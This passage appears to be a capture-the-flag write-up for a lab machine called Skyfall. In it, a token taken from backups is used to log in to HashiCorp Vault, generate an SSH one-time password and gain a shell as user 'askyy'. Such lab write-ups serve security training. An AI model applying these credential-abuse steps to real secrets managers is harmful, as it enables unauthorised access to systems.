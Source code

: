 # Vault usage

## export Vault address
```bash
export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
```
## Vault login
The token found in the backups was used for the login. 
```bash
 ./vault login   
Token (will be hidden): 
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                hvs.CAESIJlU9JMYEh[REDACTED]
token_accessor       rByv1coOBC9ITZpzqbDtTUm8
token_duration       435891h5m20s
token_renewable      true
token_policies       ["default" "developers"]
identity_policies    []
policies             ["default" "developers"]
```
I added vault to my path for the rest of this to make it easier to use. 
This had a bunch of good information on how to use vault https://developer.hashicorp.com/vault/tutorials/secrets-management/ssh-otp

I went into the backups directory that had .ssh with keys in it for this. 
## Write ssh role to vault
```bash
└─$ vault write -address="$VAULT_API_ADDR" ssh/creds/dev_otp_key_role ip="10.10.11.254" username="askyy"
Key                Value
---                -----
lease_id           ssh/creds/dev_otp_key_role/EOV7frRrggv4IrC8WRl1fXsE
lease_duration     768h
lease_renewable    false
ip                 10.10.11.254
key                8d9b639f[REDACTED]1fcef4776333
key_type           otp
port               22
username           askyy
```     

## Write OTP to vault
NOTE: you must use the OTP for the password
```bash                      
┌──(chxsec㉿kali)-[~/…/skyfall/backups/3/.ssh]
└─$ vault ssh -role dev_otp_key_role -mode otp -strict-host-key-checking=no askyy@demo.skyfall.htb      
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: 3aae[REDACTED]765a490
(askyy@demo.skyfall.htb) Password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-92-generic x86_64)

 * Documentation:  https://help.ubuntu.com
```